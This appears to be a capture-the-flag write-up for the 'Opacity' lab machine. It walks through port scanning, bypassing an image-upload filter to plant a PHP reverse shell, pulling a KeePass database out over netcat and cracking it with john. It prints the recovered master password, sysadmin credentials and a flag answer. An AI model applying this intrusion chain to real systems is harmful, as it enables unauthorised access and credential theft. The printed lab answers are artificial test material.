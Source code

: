 # Opacity
(flags are at the end of the writeup)

### Opacity
Initial scan shows ports 22,80,139 and 445 open, and ports 9485, 11972 and 15370 filtered:

    # Nmap 7.94SVN scan initiated Wed Oct 30 06:32:33 2024 as: nmap -p22,80,139,445,9485,11972,15370 -sV -sC -oN scan 10.10.40.162
    Nmap scan report for 10.10.40.162
    Host is up (0.067s latency).
    
    PORT      STATE  SERVICE     VERSION
    22/tcp    open   ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
    |   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
    |_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
    80/tcp    open   http        Apache httpd 2.4.41 ((Ubuntu))
    | http-title: Login
    |_Requested resource was login.php
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    139/tcp   open   netbios-ssn Samba smbd 4.6.2
    445/tcp   open   netbios-ssn Samba smbd 4.6.2
    9485/tcp  closed unknown
    11972/tcp closed unknown
    15370/tcp closed unknown
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Host script results:
    |_clock-skew: -1h00m52s
    |_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb2-time: 
    |   date: 2024-10-30T09:32:00
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required

Gobuster finds `/cloud` directory on the webserver: `gobuster dir -u http://10.10.40.162 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt`<br />
![image](https://github.com/user-attachments/assets/bbd215c0-4ffa-4411-a220-61147005a489)<br />
This page allows us to upload images. There's a filter that only allows strings ending with `.jpg` or `.png`. But we can upload a php file by simply adding a space before `.jpg`, like so: `http://10.11.108.100/revshell.php .jpg`. Open a python webserver on the attacker's machine and upload a php reverse shell. I used the one from [pentest monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Then open a netcat listener and visit `http://10.10.9.20/cloud/images/revshell.php`:<br />
![image](https://github.com/user-attachments/assets/58ff0220-c304-49f6-81d4-1fb2fa4ecf57)<br />
Inside `/opt` there's a KeyPass file:<br />
![image](https://github.com/user-attachments/assets/527e2e1d-e1ed-4691-a814-b31379d4be3c)<br />
So I transfered this file on my machine using netcat. And I used john to extract the hash of the password that protects this database: `keepass2john dataset.kdbx > hash.txt`. <br />
![image](https://github.com/user-attachments/assets/4ce0d56d-7bbd-4149-a788-aac3fafb1c87)<br />
Then run `john hash.txt` to crack it:<br />
![image](https://github.com/user-attachments/assets/c83e5b61-f7f0-40fe-86e8-f2628153b1a5)<br />
Now we can open the database with the following command: `keepassxc-cli open dataset.kdbx` and prompt `741852963` as password.<br />
![image](https://github.com/user-attachments/assets/385b27b8-c68c-4cbb-96d6-b122e57be292)<br />
To look at the password, add the `-s` flag:<br />
![image](https://github.com/user-attachments/assets/0944e2f0-b692-44a7-af9d-ecd504e0ddc0)<br />
Creds found: `sysadmin:Cl0udP4ss40p4city#8700`.







- What is the  local.txt flag? `6661b61b44d234d230d06bf5b3c075e2`
- What is the proof.txt flag? ``
